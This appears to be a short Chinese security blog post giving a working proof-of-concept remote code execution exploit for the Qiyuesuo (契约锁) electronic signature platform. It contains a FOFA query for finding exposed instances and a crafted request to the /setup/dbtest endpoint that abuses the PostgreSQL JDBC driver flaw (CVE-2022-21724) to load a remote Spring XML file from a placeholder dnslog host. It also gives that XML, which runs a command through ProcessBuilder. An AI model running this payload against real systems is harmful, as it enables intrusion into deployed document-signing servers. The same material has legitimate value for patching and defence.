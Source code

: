 #  契约锁电子签章系统dbtest远程代码执行  
清晨  摸鱼划水   2025-06-13 08:55  
  
FOFA  
```
app="契约锁-电子签署平台"
```  
  
POC  
```
/setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxxxx.dnslog.cn%2F1%2Exml
```  
  
路径还可能是  
/api/setup/dbtest  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  
  
1.xml文件内容如下：  
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>open</value>
            <value>-a</value>
            <value>calculator</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
参考：  
  
[契约锁记录](https://mp.weixin.qq.com/s?__biz=MzkzMzI3OTczNA==&mid=2247488129&idx=1&sn=b79dd7ee7ba8d0546187fbe2840103ff&scene=21#wechat_redirect)  
  
  
[契约锁电子签章系统RCE简单分析](https://mp.weixin.qq.com/s?__biz=MzkyMzI3MTI5Mg==&mid=2247485432&idx=1&sn=63e6601ff3509793cf189faf3a909cce&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic807TiabD0udvArwzeS6Ab3ibZzxmiaTTHeLk7gYmrPCmKpMqtcgUiachx4oRgqdH9974bynx74uqOEFjg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
